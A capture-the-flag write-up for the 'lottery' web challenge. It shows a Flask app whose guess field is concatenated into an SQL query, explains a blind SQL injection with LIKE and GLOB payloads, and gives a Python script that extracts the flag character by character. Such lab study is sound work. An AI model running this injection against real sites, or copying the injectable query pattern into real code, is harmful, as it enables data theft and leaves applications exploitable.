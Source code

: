 # lottery

[library.m0unt41n.ch/challenges/lottery](https://library.m0unt41n.ch/challenges/lottery) ![](../../resources/web.svg) ![](../../resources/easy.svg) 

# TL;DR

We get a link to a site where we can guess numbers - with a source
and a `Dockerfile`

# Code

A very simple Flask app:

```python
import os, sqlite3
from flask import Flask, render_template, request

db = sqlite3.connect(":memory:", check_same_thread=False)
cur = db.cursor()
cur.execute("""
CREATE TABLE answers (answer TEXT NOT NULL);
""")
cur.execute("INSERT INTO answers VALUES ('ananas');")
cur.execute("INSERT INTO answers VALUES ('" + os.environ.get("FLAG", "flag{fake_flag}") + "');")
cur.execute("INSERT INTO answers VALUES ('banana');")

app = Flask(__name__)

@app.route("/", methods=["GET", "POST"])
def index():
    has_guessed = False
    answer_correct = False
    if request.method == "POST":
        has_guessed = True
        guess = request.form.get("guess", "")
        cur.execute(f"SELECT * FROM answers WHERE answer = '{guess}'")
        rows = cur.fetchall()
        answer_correct = len(rows) > 0
    return render_template("index.html", has_guessed=has_guessed, answer_correct=answer_correct)

app.run(host="0.0.0.0", port=5000)
```

# Analysis

Key observation: the `guess` param of the POST request allows SQL injection.
We can't extract any actual information from the webapp, but the description hints
that we have unlimited attempts, so, we can try decoding every character
individually.

First instinct is to inject something like: `xxxxxx' OR answer LIKE 'cyberskills23{_`
... where `_` is replaced with arbitrary characters until the app returns
`Correct`. That gets us a flag: `cyberskills23{y0u_ju5t_h4v3_t0_g3t_lucky_335e69bce0a1}` -
but it is not correct!

Next observation is that `LIKE` is case-insensitive, so, we might have
better results with `GLOB And that works:

## Getting the flag

```python
import requests
import sys

URL = "https://xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx.library.m0unt41n.ch:1337"
flag = "cyberskills23"

# The charset excludes: * ? (GLOB special chars) and " ' \  (just in case)
CHARSET="abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ{}!#$%&()+,-./:;<=>@[]^`|~"

found = True
while found:
    found = False
    for c in CHARSET:
        params = {"guess": "xxxxxx' OR answer GLOB '"+flag+c+"*"}
        html = requests.post(URL, data=params).text
        if "Your guess is correct, congrats!" in html:
           flag = flag+c
           found = True
           print(flag)
           break
```

---

## `cyberskills23{Y0u_ju5t_h4v3_t0_g3t_lucky_335e69bce0a1}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
